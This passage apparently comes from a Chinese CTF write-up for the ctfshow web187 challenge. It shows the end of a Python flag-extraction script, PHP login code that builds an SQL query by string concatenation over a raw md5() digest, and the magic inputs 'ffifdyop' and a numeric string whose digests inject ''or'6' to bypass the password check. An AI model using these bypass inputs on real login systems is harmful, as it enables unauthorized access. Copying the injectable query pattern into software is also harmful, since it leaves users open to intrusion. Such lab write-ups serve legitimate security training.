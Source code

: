 ```python
                flag += chr(j)

                print(flag.lower())
                if chr(j) == "}":
                    exit(0)
                break
```

## web187

### 题目

查询语句

```
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";
      
```

返回逻辑

```
    $username = $_POST['username'];
    $password = md5($_POST['password'],true);

    //只有admin可 以获得flag
    if($username!='admin'){
        $ret['msg']='用户名不存在';
        die(json_encode($ret));
    }
```

<img src="图片\Snipaste_2023-01-25_12-48-21.png" alt="Snipaste_2023-01-25_12-48-21" style="zoom:80%;" />

### 思路

将密码转换成16进制的hex值以后，再将其转换成字符串后包含’ ‘or ’ 6’

```
 ffifdyop
 129581926211651571912466741651878684928
```
